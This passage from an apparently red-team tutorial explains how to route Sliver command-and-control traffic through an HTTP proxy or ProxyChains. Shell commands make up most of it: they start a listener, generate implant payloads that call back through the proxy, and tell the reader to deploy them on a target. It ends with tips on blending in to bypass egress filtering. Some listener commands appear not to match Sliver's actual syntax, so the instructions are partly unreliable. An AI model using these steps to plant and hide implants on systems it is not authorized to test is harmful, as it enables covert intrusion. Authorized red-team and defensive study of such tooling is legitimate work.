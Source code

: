 4. **Deploy the Payload**:
   Deploy the generated payload on the target system.

#### Example: Configuring and Using Sliver with an HTTP Proxy

1. **Start Sliver**:
   ```bash
   sliver-server
   ```

2. **Create a New HTTP Listener with Proxy**:
   ```bash
   sliver > use listener http
   sliver > set proxy http://user:pass@192.168.1.100:8080
   sliver > start listener
   ```

3. **Generate a Payload**:
   ```bash
   sliver > generate --http --proxy http://user:pass@192.168.1.100:8080
   ```

4. **Deploy and Run the Payload** on the target machine.

### Using Sliver with ProxyChains

If you prefer to use ProxyChains to route Sliver traffic through a proxy, follow these steps:

1. **Install ProxyChains**:
   ```bash
   sudo apt-get install proxychains
   ```

2. **Configure ProxyChains**:
   Edit the configuration file `/etc/proxychains.conf` and add your proxy settings.

   ```plaintext
   [ProxyList]
   http 192.168.1.100 8080
   ```

3. **Run Sliver with ProxyChains**:
   ```bash
   proxychains sliver-server
   ```

### Tips and Considerations

- **Testing Proxy Connectivity**: Before using Sliver, test the proxy connectivity with tools like `curl` or `wget` to ensure it’s working correctly.
- **Proxy Authentication**: If your proxy requires authentication, ensure your credentials are correctly formatted in the URL.
- **Traffic Analysis**: Be aware that some proxies log traffic, which might expose your activities during a red team engagement.
- **Bypassing Network Restrictions**: Using proxies can help bypass network restrictions and egress filtering, but make sure to use legitimate user-agent strings and other headers to blend in with normal traffic.
